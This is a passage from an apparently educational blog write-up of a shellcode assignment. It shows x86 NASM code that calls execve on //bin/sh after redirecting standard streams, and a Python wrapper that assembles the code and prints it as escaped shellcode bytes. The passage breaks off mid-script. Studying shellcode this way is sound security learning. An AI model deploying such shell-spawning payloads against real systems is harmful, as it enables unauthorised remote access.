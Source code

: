     ; argv, 2nd argument of execve
    mov ecx, esp

    ; envp, 3rd argument of execve
    mov edx, esp</code></pre><figcaption><code>ECX</code> and <code>EDX</code> are pointers to <code>NULL</code>, so <strong>argv</strong> and <strong>envp</strong> are empty</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp

    ; exceve syscall
    xor eax, eax
    mov al, 11
    int 0x80</code></pre><figcaption>Call <code>execve</code> on <code>//bin/sh</code></figcaption></figure><p>As you can see, after it redirects input, output, and error, the <code>execve</code> syscall spawns an SH shell.</p><h2 id="automation">Automation</h2><p>One of the requirements of the assignment is to be able to easily configure the TCP port. I decided to write <code>python</code> script that acts as a wrapper (script named <code>wrapper.py</code>):</p><figure class="kg-card kg-code-card"><pre><code class="language-py">import os
import sys
import argparse
import traceback
import subprocess


def print_shellcode(object_file_path):

    try:
        command = ["objcopy", "-O", "binary", "-j", ".text", object_file_path, "/dev/stdout"]
        proc = subprocess.run(command, stdout=subprocess.PIPE)
    except:
        print(traceback.format_exc())
        sys.exit(1)</code></pre><figcaption>The binary <code>objcopy</code> belongs to the package <code>binutils</code>, which must be installed, otherwise the program will throw an error</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-py">    shellcode = proc.stdout
    shellcode_string = ""

    for b in shellcode:
        shellcode_string += f"\\x{b:02x}"

    if 0x00 in shellcode:
        print(f"[!] Found NULL byte in shellcode")

    print(f"[+] Shellcode length: {len(shellcode)} bytes")
    print(f"[+] Shellcode:")
    print(f'"{shellcode_string}";')</code></pre><figcaption>I wrote the function <code>print_shellcode</code> in order to extract the executable code from the <code>.text</code> section of the object file. It allows you to easily paste the shellcode into the shellcode runner</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-py">def generate_shellcode(output_file_path):

    object_file_path = output_file_path.replace(".nasm", ".o", 1)
    executable_path = output_file_path.replace(".nasm", "", 1)

    try:
        os.system(f"nasm -f elf32 -o {object_file_path} {output_file_path}")
        os.system(f"ld -m elf_i386 -o {executable_path} {object_file_path}")</code></pre><figcaption>The program also requires <code>nasm</code> and <code>ld</code>, the latter should be present by default on Linux systems</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-py">        print(f"[+] Object file generated at {output_file_path}")
        print(f"[+] Executable binary generated at {executable_path}")

